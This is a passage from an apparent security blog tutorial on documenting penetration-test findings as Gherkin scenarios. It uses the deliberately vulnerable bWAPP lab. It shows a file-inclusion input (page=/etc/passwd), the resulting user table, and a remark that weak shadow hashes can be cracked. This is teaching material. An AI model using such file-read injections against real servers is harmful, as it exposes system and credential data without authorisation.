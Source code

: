 But wait. The server is not just `` `floating'' in space:
it lives inside a `GNU/Linux `` machine. And 'everything' in such an
`OS` is a file, many of which are plain-text files. One of them is of
particular importance:
[`/etc/passwd`](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/),
which stores information about users. Let us try to display it in this
page, setting `page=/etc/passwd`:

<div class="imgblock">

!["Viewing the contents of a system file in the page"](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330881/blog/gherkin-steroids/passwd_r3cgvo.webp)

<div class="title">

Figure 3. Listing users in the `bWAPP` servers

</div>

</div>

We can document that using `Gherkin` data tables, in a scenario of its
own, due to the importance of the finding:

**Documenting a particular exploitation.**

``` gherkin
  Scenario: Users record extraction
    When I change the page=message.txt parameter to page=/etc/passwd
    Then we retrieve the following user records:

    # Records extracted
    | username | pw? | UID | GID | info | home | shell |
    | root     | x | 0 | 0 | root | /root | /bin/bash |
    | daemon   | x | 1 | 1 | daemon | /usr/sbin | /usr/sbin/nologin |
    | bin      | x | 2 | 2 | bin | /bin | /usr/sbin/nologin |
    | sys      | x | 3 | 3 | sys | /dev | /usr/sbin/nologin |
    | sync     | x | 4 | 65534 | sync | /bin | /bin/sync |
    | games    | x | 5 | 60 | games | /usr/games | /usr/sbin/nologin |
    | man      | x | 6 | 12 | man | /var/cache/man | /usr/sbin/nologin |
    | lp       | x | 7 | 7 | lp | /var/spool/lpd | /usr/sbin/nologin |
    | mail     | x | 8 | 8 | mail | /var/mail | /usr/sbin/nologin |
    | news     | x | 9 | 9 | news | /var/spool/news | /usr/sbin/nologin |
    | uucp     | x | 10 | 10 | uucp | /var/spool/uucp | /usr/sbin/nologin |
    | proxy    | x | 13 | 13 | proxy | /bin | /usr/sbin/nologin |
    | www-data | x | 33 | 33 | www-data | /var/www | /usr/sbin/nologin |
    | backup   | x | 34 | 34 | backup | /var/backups | /usr/sbin/nologin |
    | list     | x | 38 | 38 | Mailing List Manager | /var/list | /usr/sbin/nologin |
    | irc      | x | 39 | 39 | ircd | /var/run/ircd | /usr/sbin/nologin |
    | gnats    | x | 41 | 41 | Gnats Bug-Reporting System (admin) | /var/lib/gnats | /usr/sbin/nologin |
```

Now we know how many users there are on the server, and which of them
have passwords set. Those are stored in
[`/etc/shadow`](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)
in the form of hashes, which can be [cracked if the passwords are
weak](../storing-password-safely/). However, the `shadow` file, unlike
the `passwd` file, is protected:
